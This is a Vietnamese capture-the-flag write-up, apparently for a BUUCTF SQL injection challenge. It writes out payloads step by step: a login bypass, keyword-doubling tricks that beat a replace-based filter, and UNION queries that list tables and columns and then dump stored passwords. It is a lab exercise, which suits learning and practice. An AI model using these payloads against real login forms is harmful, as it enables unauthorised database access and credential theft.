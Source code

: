 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/34189a21-6f0a-4c7a-b5e6-d5301ceb344e)![image](https://github.com/Llam-a/BUUCTF/assets/115911041/7374a48a-8fb4-4505-82ac-ef5473117bf1)

Ta có form challenge. Mình sẽ thử inject cơ bản 

`user: 1' or 1=1-- -

pass: 1' or 1=1-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/a1fdb887-10a1-48d8-bb17-ca4c3d2b11df)

Nếu các bạn thấy output chỗ pass đã đổi `or` thành null là do hàm `preg_repalce()` hoặc hàm tương tự. Sau đó mình có test với `union,where và select` đều bị thay thế. Nên ta sẽ làm cho sau khi xóa chữ or thì nó sẽ trở thành or, tương tự như select, where và union.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/15017af1-56d2-4dad-b4cd-e3e0b009bf60)

Ta có kết quả

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/07fd59ab-b30e-46f3-9398-437fdacaca14)

Và giờ ta sẽ check cột `admin' anandd 1=2 uniunionon selselectect 1,2,3-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/799672a3-552a-4dda-a180-6315eebe097a)

Vậy là có lỗi ở cột 2 và 3. Tiếp tục khac thác database, table, column, data.

`admin' anandd 1=2 uniunionon selselectect 1,2,database()-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f5f1fc0c-200f-4419-99c9-ca9834afe11c)

`admin' uunionnion sselectelect 1,2,group_concat(table_name) ffromrom infoorrmation_schema.tables wwherehere table_schema=database()-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/60af18c6-3c6c-4b63-a33f-374a275205b6)

Ta có 2 table. Mình sẽ xem table của `b4bsql`

`admin' uunionnion sselectelect 1,2,group_concat(column_name) ffromrom infoorrmation_schema.columns wwherehere table_name='b4bsql'-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/ed6fb617-f2f0-425a-94e3-abdac6b5392b)

Kết quả cho ra 3 cột. Ta xem data trong password

`admin' uunionnion sselectelecte 1,2,group_concat(passwoorrd) ffromrom b4bsql-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4153ea2d-8753-4ec6-8287-0e74dcfafd90)

